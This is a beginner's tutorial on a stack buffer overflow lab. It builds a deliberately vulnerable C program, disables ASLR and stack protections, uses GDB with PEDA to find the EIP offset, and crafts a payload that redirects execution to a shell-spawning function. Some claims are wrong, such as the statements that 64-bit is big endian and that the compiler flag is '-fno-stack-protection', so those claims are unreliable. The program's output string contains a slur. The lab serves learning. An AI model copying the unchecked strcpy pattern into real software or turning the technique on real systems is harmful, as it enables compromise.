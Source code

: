 Im still extremly new to this so if anyone reads this and sees the amount of stuff called\worded wrong let me know
==================================================================================================================

For This Part it is simply going to be the most basic type of exploit, overwriting the EIP with another functions address
It also is going to be a high level view of the stack ect as im still learning and not informed Enough to be trying to teach people (If Anyone Ever Reads this)

Here Is a Good Link Explaining the Stack And Stack Smashing
      https://owasp.org/www-chapter-pune/meetups/2019/August/Buffer_overflow_by_Renuka_Sharma.pdf

ALSO

      Im using a plugin for GDB in this called PEDA, it adds color and introduces many useful commands to install it follow these instrcutions

      git clone https://github.com/longld/peda.git ~/peda
      echo "source ~/peda/peda.py" > ~/.gdbinit
      (Create the .gdbinit if you dont have one)

----

For refernce Here is the source Code
============================================================
        #include <stdio.h>
        #include <stdlib.h>
        #include <string.h>
        
        void shell() {
        	system("/bin/sh");
        }
        
        
        void copy(char *msg) {
        	char buffer[250];
        	strcpy(buffer, msg);
        }
        
        int main(int argc, char const *argv[])
        {
        	copy(argv[1]);
        	printf("Nice One Retard It Didnt Overflow!\n");
        	return 0;
        }
==============================================================

As You can see all it does is, instatly Jump to the copy function and passes argv[1] (The First Command line argument, ./buffer Hello, it passes hello)
Which then simply just uses strcpy to copy it into the buffer which has a max value of 250 bytes (Note How strcpy Has 0 boundry checking)
There is also the function "shell" but it never gets called so its just dead code

But What If we could copy so many characters into the buffer that it "overflows" into other memory address's? What Effects Could that possibly have?

NOTE
    Modern Day Systems Have Built In protections against these Types of attacks such as ASLR(Address space layout randomization), DEP (Data Execution Protection), NX (No Executable)
    But Since We a Simply beginners we will turn these off (For this type of attack NX/DEP Doesnt really matter as we arent injecting shellcode)

    To Turn Off ASLR 
            echo 0 > /proc/sys/kernel/randomize_va_space ; Will Need Sudo Or Root

    To Turn Off DEP/NX
            compile with the flag: -z execstack, this allow the stack\heap to be executable

============================

Now Lets Compile Our Program so we can start
      gcc -m32 -fno-stack-protection -no-pie -g -z execstack -o buffer buffer.c

      -m32
          Compile to a 32bit exectuable, Uses ASM instructions such as EAX, EBX, ECX, EDX, ESP, EBP, EIP

      -fno-stack-protection
          Turn Off Stack Protection mechanisms, Such as Stack Smashing Protection(SSP), These are made to identify Stack Based Overflow attempts and stop attackers

      -no-pie 
          Turn Off Postion Independant executable, PIE randomizes the base address of exectuables, makes it harder to find/predict memory addresses

      -g
          Include Debugging information

      -z exectack
          Allows the stack/heap to be executable
=============================

Now Onto the Fun Part! Lets start exploiting this program


For Starters Let Just Pass 10 Characters

![First](https://github.com/zevuxo1/Buffer-Overflow-Tutorial/assets/155918223/ea0257bd-8653-4900-a6d4-10714dad3a2e)

We Can See the program ran without any errors, Usually Good But Not What we want as an attacker

Now Lets Try Pass 400 Charaters, Make a file called whatever.py and add
      print("A" * 400)

Now Lets Run the program but use the python program as Input
![Second](https://github.com/zevuxo1/Buffer-Overflow-Tutorial/assets/155918223/b9f6e51e-6b81-4824-a580-2739914b0651)

Whoa! What Happened?, We Got a segmentation Fault. But What Is That?

FROM GOOGLE

      A segmentation fault occurs when a program attempts to access a memory location that it is not allowed to access 
      or attempts to access a memory location in a way that is not allowed 
      (for example, attempting to write to a read-only location, or to overwrite part of the operating system)

Lets Open Up GDB (gnu debugger) To Check Out What Happened

run GDB then run the command
      run $(python3 arg.py)

![third](https://github.com/zevuxo1/Buffer-Overflow-Tutorial/assets/155918223/0791be64-1ac9-44a1-9e3f-1c14db57fd3f)

We Can See That EIP, EBP, ESP Are Full of 0x41 (A in hex), So we 100% Know We succesfully overflowed the buffer But Why did we get a segfault?

Because After The copy Function is done with its job, It Needs To Know Where to go, using the ret address which would be held in the EIP register (The EIP Register Holds The Next Instruction To Be Ran It Gets Incremented After every instrctuion is done)

But Since We Overflowed Into the EIP register it has 0 clue where to jump and tries to access and invalid address which is why we got the segfault!

Now Our Next job Is To Find Out How Many characters we can input till we fill the EIP reigster

There Are Many program for this jobs like msf's pattern_create.rb. But We Will just use PEDA's pattern create, so lets create a pattern of 400 characters

![fourth](https://github.com/zevuxo1/Buffer-Overflow-Tutorial/assets/155918223/a1dc6507-6cd9-4cff-8f5d-fbf77cc55574)

Now in Your python script replace the "A" * 400 with your pattern
      print('<pattern')

Then Lets Run the program again using our pattern
      run $(python3 arg.py)

![5th](https://github.com/zevuxo1/Buffer-Overflow-Tutorial/assets/155918223/20615a0c-5b35-43fc-8cf1-e4cc6a295edc)


Now we Can See The EIP Has a differnt value, which we can use to get the exact offset

Use PEDA pattern offset command
      pattern offset A%HA, Or Pattern offset 0x41482541
      
![6th](https://github.com/zevuxo1/Buffer-Overflow-Tutorial/assets/155918223/e19fed87-ebe2-47b4-8c87-81447fdacd77)

And Perfect! it gives the exact offset till we fill the EIP register

Lets Proves This By Filling it with BBBB, Inside your python script change it to
      print("A" * 262 + "BBBB") // We Use 4 B's Because the EIP register is 4 bytes wide and 1 char = 1 byte, so it perfectly fills it

![7th](https://github.com/zevuxo1/Buffer-Overflow-Tutorial/assets/155918223/1fe9e99d-b919-48df-90ab-8b752b796aec)

and perfect we can see it filled it with Our 4 B's!

Now We can control the return address, we could do anything, make it return to a different function, inject shellcode and make it point to a nop sled and so on!

Now Onto Making The EIP point to the SHELL function so we can spawn a shell!

In Our case getting the address is extremly easy as ASLR ect is turned off

Ill Show 2 ways

1. We can just use "info function" commands in GDB to list the functions then copy the SHELL address
   ![8th](https://github.com/zevuxo1/Buffer-Overflow-Tutorial/assets/155918223/30d45b06-cb72-429e-90d8-38ce139dcb74)

   Then Simply copy the address "0x08049186", On the Left Of SHELL
--------------------
2. Or The Easier Less In your face way, just using p shell to print the address
   ![9th](https://github.com/zevuxo1/Buffer-Overflow-Tutorial/assets/155918223/9e191061-c28d-414c-bd15-914e0bdf12ab)
----------------------

And Perfect! We Have Eevrything Need To Exploit this program and spawn a shell by using the Dead Code function

Open Up Your python script and Chnage the B's to the address of SHELL
      NOTE

            REMEBER since this is a 32 bit exectuable it uses Little endian, so it stores the least significant byte first, 64bit is big endian
            So For Our Address Remember to reverse it (DONT REFLECT IT!)

            so 0x08049186 Turns Into 0x86910408,
            DONT DO THIS, Origianl 0x08049186: REFLECTED 0x80401968

So Now Our python script looks like 
      print("A" * 262 + "\x86\x91\x04\x08")

Now For the Moment Of Truth lets See If Succesfully Exploited it!!!

![last](https://github.com/zevuxo1/Buffer-Overflow-Tutorial/assets/155918223/fe920a29-f781-4a35-be15-ab4d8cff16df)

AND WE DID IT!!!!


      

            






        
  
      


  
